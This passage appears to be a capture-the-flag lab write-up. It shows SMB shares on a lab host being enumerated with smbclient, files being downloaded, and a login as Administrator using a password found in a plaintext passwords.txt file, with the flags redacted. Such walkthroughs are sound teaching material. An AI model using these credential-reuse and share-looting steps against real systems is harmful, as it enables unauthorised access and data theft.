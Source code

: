 **Session**:
```
smb: \> ls
  .                                   D        0  Thu Sep  5 10:15:23 2025
  ..                                  D        0  Thu Sep  5 10:15:23 2025
  flag.txt                            A       20  Thu Sep  5 10:15:23 2025
  sam_backup_info.txt                 A      234  Thu Sep  5 10:15:23 2025

smb: \> mget *
Get file flag.txt? y
Get file sam_backup_info.txt? y

┌──(kali㉿kali)-[~]
└─$ cat flag.txt
FLAG{S*************9}
```

**🎯 FLAG 8 FOUND**: FLAG{S**********9} - In Backup share

### FLAG 9: IT Share (Requires Admin)

**Location**: IT SMB share  
**Difficulty**: Hard

```bash
# Connect with Administrator account
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.148.101/IT -U Administrator
Enter WORKGROUP\Administrator's password: Password123!
```

**Content**:
```
smb: \> ls
  .                                   D        0  Thu Sep  5 10:15:23 2025
  ..                                  D        0  Thu Sep  5 10:15:23 2025
  flag.txt                            A       21  Thu Sep  5 10:15:23 2025
  admin_tools/                       D        0  Thu Sep  5 10:15:23 2025
  scripts/                            D        0  Thu Sep  5 10:15:23 2025

smb: \> get flag.txt
FLAG{A************7}
```

**🎯 FLAG 9 FOUND**: FLAG{A**********7} - In IT share

### FLAG 10: Password File Analysis

**Location**: passwords.txt in Public share  
**Difficulty**: Easy

```bash
┌──(kali㉿kali)-[~]
└─$ cat passwords.txt  # Downloaded from Public share
Administrator:Password123!
FLAG{M************2}
```
